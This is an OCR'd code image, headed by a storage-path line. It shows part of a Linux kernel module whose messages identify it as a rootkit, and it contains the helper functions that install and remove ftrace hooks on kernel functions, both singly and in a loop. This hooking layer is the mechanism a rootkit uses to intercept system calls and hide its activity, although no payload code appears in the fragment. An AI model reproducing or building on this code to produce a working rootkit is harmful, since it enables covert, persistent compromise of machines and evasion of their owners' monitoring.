             err = register_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
                return err;
            }

            return 0;
        }

        /* Disabling our function hook is just a simple matter of calling the built-in
        * unregister_ftrace_function() and ftrace_set_filter_ip() functions (note the
        * opposite order to that in fh_install_hook()).
        * */
        void fh_remove_hook(struct ftrace_hook *hook)
        {
            int err;
            err = unregister_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
            }

            err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            }
        }

        /* To make it easier to hook multiple functions in one module, this provides
        * a simple loop over an array of ftrace_hook struct
        * */
        int fh_install_hooks(struct ftrace_hook *hooks, size_t count)
        {
            int err;
            size_t i;

            for (i = 0 ; i < count ; i++)
            {
                err = fh_install_hook(&hooks[i]);
                if(err)
                    goto error;
            }
            return 0;

        error:
            while (i != 0)
            {
                fh_remove_hook(&hooks[--i]);
            }
            return err;
        }
